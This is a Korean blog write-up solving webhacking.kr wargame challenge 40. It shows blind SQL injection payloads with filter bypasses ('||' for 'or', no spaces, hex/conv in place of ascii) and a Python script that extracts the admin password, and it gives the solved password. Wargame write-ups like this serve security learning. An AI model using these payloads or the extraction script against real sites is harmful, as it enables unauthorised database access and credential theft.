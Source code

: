 ```yaml
---
title: "[webhacking.kr] 40번 문제 풀이[Blind SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
toc: true
toc_sticky: true
toc_label: "40번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 40번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152694607-688cddb7-17ac-4809-a930-00c50242ad4b.png)


# 문제 풀이
  기본 값을 그대로 로그인을 시도하면 guest로 로그인이 성공합니다.

  ![image](https://user-images.githubusercontent.com/33647663/152694685-cac35a83-f192-4678-b4c5-e8a03b68c74e.png)


  id,no,pw 를 다른 값으로 바꿔서 시도하면 다음과 같은 화면이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/152694709-e1c49ab4-9c4d-41e5-bc43-f5aaa46f0e27.png)

  이제 입력이 가능한 no,id,pw에 injection을 시도해 봅니다.



  id,pw 에는 
  ```sql
' or 1=1-- 
  ```
  을 시도해 보았지만 취약점이 발견되지 않았습니다.

  no에는 다음을 입력해 보았더니 access denied, 즉 필터링 되었습니다.

  ```sql
3 or 1=1-- 
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152694769-1e21978a-004a-4bc2-85e0-f9e93b565356.png)



  입력 값을 몇개 시도해 보니, no를 통해서 인젝션이 되었습니다. 'or' 이 필터링 되어서 '\|\|'로 대체하였고, 띄어쓰기(%20)가 필터링 되어서 붙여서 썼습니다. 


  ```sql
3||no=2
  ``` 

  ![image](https://user-images.githubusercontent.com/33647663/152694905-9a5bcf12-ec20-4b81-8179-00166af451ca.png)

  위의 값을 입력해 주면 다음 페이지로 이동되는데, admin password를 구해야 합니다.

  이 이후부터는 전형적인 blind sql injection으로 파이썬 코드로 대체하겠습니다.

  기존 문제와 다른 점은 select문이 필터링 되어 있어서 information_schema를 이용하는것은 불가능 했습니다.

  또한 ord,ascii가 필터링 되어 있었기 때문에 hex 함수를 이용해서 우회를 했습니다.

  ```sql
  hex('a') = 61 # 주어진 문자를 ascii 16진수로 반환
  conv(61,16,10) = 97 # 맨 첫 인자를 16진수에서 10진수로 변환
  ```

  위의 함수들을 이용해서 ascii와 동일한 기능을 구현할 수 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695103-825180a6-f26c-4bcc-802c-332bc03339ba.png)



  ```python
import requests
from tqdm import tqdm
url = "https://webhacking.kr/challenge/web-29/"

TRUE_FLAG = "Success"
FALSE_FLAG = "Failure"


# 1. pw 길이
for i in range(20):
    params = "?id=guest&pw=guest&no=3||(length(pw)={})".format(i)
    response = requests.get(url + params)
    if(FALSE_FLAG not in response.text):
        print("password length: ", i)


# admin 계정의 pw 길이는 10

# 2. pw
for i in range(1,11):
    password = ''
    for j in range(127,20,-1):
        params = "?id=guest&pw=guest&no=3||(conv(hex(substr(pw,{0},1)),16,10)={1})".format(i,j)
        response = requests.get(url+params)
        if(FALSE_FLAG not in response.text):
            password += chr(j)
            if(i>5):
                break
    print(i," : ",password)
  ```

# 결과
  코드를 실행하면 다음과 같이 출력합니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695172-7aaa9344-4507-4842-a3e6-498992450665.png)

  DB에는 guest와 admin 2가지 계정의 비밀번호가 있기 때문에 5번째 자리까지는 2번 출력되는 것을 볼 수 있습니다. 이때 1-5까지는 'guest'를 제외하고 보면 admin의 비밀번호는

  luck_admin 인 것을 알 수 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695240-90635e28-b6db-468c-b4e6-2781b2a8a339.png)


